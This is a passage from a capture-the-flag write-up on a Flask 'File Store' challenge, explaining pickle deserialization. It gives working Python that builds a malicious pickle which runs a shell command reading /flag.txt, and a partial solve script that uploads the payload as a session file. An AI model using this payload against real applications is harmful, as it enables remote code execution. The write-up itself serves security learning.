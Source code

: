 #### Finally the intended solution (Which got us the actual flag)

Wait we just spend x hours playing with the pickled session file... Aren't pickles dangerous? 🤔 

Pickling is a process of serializing Python objects into a byte stream, often used for data storage or transmission. However, unpickling untrusted data can lead to code execution vulnerabilities, commonly known as pickle deserialization attacks.

See more: <https://blog.nelhage.com/2011/03/exploiting-pickle/>

```python
# tainted_pickle.py
import struct
import pickle
import random

filename = "md5 of session id"

class RCE:
        def __reduce__(self):
            import os
            cmd = ('cat /flag.txt > /app/static/uploads/flag.txt')
            return os.system, (cmd,)

with open(filename, "wb") as f:
            rce = RCE()
            f.seek(4) # Leave the first 4 bytes unmodified
            session_value = rce
            pickle.dump(session_value, f)
```

Uploading this bad boy to `/flask_session/md5_of_session_id` presents us the flag at `{instance_url}/app/static/uploads/flag.txt` 🎊 

#### Solution as a single script?

The File Store challenge underscores the importance of thorough understanding of various web application vulnerabilities. By exploring different avenues (reading 3rd party sources) and exploiting vulnerabilities such as package namespace poisoning and pickle deserialization, we cracked this insecure flask web application wide open.

##### solve.py

```python
import requests
import hashlib
import pickle

def upload_file(url, filename, content, session_cookie=None):
    cookies = None
    if session_cookie:
        cookies = {'session': session_cookie}
    files = {'file': (filename, content)}
    response = requests.post(url, files=files, cookies=cookies)
    return response


def generate_payload():
    class RCE:
        def __reduce__(self):
            import os
            cmd = ('cat /flag.txt > /app/static/uploads/flag.txt')
            return os.system, (cmd,)

    rce = RCE()
    payload = b"\x00\x00\x00\x00" + pickle.dumps(rce)
```